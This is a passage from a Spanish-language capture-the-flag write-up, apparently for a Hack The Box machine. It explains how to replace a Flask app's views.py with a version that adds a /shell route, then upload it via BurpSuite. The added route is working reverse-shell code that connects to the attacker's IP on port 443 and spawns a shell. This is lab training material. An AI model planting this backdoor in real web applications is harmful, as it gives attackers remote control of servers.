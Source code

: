 
<h2 id="suplantacion">Suplantando Script views.py de la Página Web para Generar una Backdoor</h2>

La idea es reemplazar un archivo que permita que ganemos acceso a la máquina, siendo nuestra mejor opción el script `views.py`.

Esto porque ya vimos que se encarga de guardar los archivos en una ruta que el usuario puede visitar.

Abre el script y agrega la siguiente función:
```python
@app.route('/shell')
def rev_shell():
        import socket
        import subprocess
        import os
        import pty

        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("Tu_IP",443))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        pty.spawn("sh")
```
Esta función va a crear la ruta **/shell**, que cuando visitemos, nos va a mandar una **shell** hacia una **netcat** que tengamos activa, convirtiéndola en una **Reverse Shell/Backdoor**.

Ahora, debemos suplantar este script y ya probamos que esto es posible.

Sube el script y captúralo con **BurpSuite**:

<p align="center">
<img src="/assets/images/htb-writeup-opensource/Captura16.png">
</p>
